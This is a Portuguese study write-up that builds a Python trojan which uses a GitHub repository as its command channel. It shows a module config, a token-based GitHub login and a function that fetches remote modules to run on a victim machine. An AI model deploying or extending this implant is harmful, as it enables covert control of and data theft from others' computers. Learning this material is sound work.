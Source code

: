 Nosso trojan deve ser capaz de buscar no diretório `config` o arquivo `TROJANID.json`, um documento simples para que o convertamos em um dicionário Python para ele saber o que deve executar. Criaremos o arquivo `config/teste.json`, onde `teste` é o ID do nosso trojan:

```json
[
    {
        "module": "dirlister"
    },
    {
        "module": "environment"
    }
]
```

Por enquanto é apenas uma lista simples de módulos para serem excutados. Podemos adicionar outras funcionalidades, como tempo de execução, número de execuções, argumentos, etc. Commitaremos esse arquivo.

### Construindo um trojan com integração ao Github

Agora criaremos o arquivo `git_trojan.py` para usar a API do Github para executar de forma genérica nosso trojan:

```py
import base64
import github3
import importlib
import json
import random
import sys
import threading
import time

from datetime import datetime
```

Esse código deve ter um tamanho não muito grande, mas isso é relativo, pois os binários de Python geralmente são instalados usando o `pyinstaller`, vide a [documentação](https://pyinstaller.org/en/stable/), ele tem cerca de 7 MB. O autor diz que devemos instalar esse binário na máquina vítima, mas não entendi muito bem o que ele quis dizer.

Ele também fala que, para criar botnets (uma série de trojans de vários implantes) seria bacana um código para gerar automaticamente os IDs, compilá-los, etc. Não construiremos uma botnet nesse estudo, fica a cargo da curiosidade.

No mesmo arquivo anterior, criaremos o passo de autenticação no Github:

```py
# Função de conexão com o Github
def github_connect():
    with open("token.txt") as f:
        token = f.read()    # busca o arquivo de token
    user = "caioescorcio"   # usuário 
    sess = github3.login(token=token)   # login do git
    return sess.repository(user, "git-trojan")  # retorna o respoitório desejado. No nosso caso é o do git-trojan

def get_file_contents(dirname, module_name, repo):
    return repo.file_contents(f'{dirname}/{module_name}').content   # busca os conteúdos remotos de determinado repositório

class Trojan:   # classe Trojan, que configura os caminhos dos arquivos para o seu id e conecta ao github
    def __init__(self, id):
        self.id = id
        self.config_file = f'{id}.json'
        self.data_path = f'data/{id}'
```